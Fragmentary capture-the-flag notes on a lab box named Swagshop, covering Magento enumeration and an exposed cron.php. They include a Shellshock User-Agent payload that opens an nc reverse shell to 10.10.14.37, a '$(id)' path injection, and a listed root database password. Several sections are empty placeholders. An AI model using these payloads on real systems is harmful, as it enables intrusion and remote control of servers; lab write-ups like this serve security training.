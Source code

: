 ## March

### 10.10.10.140 - Swagshop

1. After enumerating the box, I discovered it was running a webserver.  Enumerating the webserver, I discovered the URL http://10.10.10.140/RELEASE_NOTES.txt which disclosed it was running Magento Commerce version 1.7.0.2.

2. I discovered a cron script that was publicly exposed on the server at URL http://10.10.10.140:80/cron.php

3. 12312

   ```bash
   GET /cron.php HTTP/1.1
   Host: 10.10.10.140
   User-Agent: () { :; } ; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i |nc 10.10.14.37 8001 >/tmp/f
   
   
   GET /$(id)/cron.php HTTP/1.1
   Host: 10.10.10.140
   ```

   

4. Further enumeration discovered the URL http://10.10.10.140/app/etc/local.xml which had the following credentials:

   ```bash
   username: root
   password: fMVWh7bDHpgZkyfqQXreTjU9
   dbname: swagshop
   ```

   

### Chatterbox



### Forest



## Future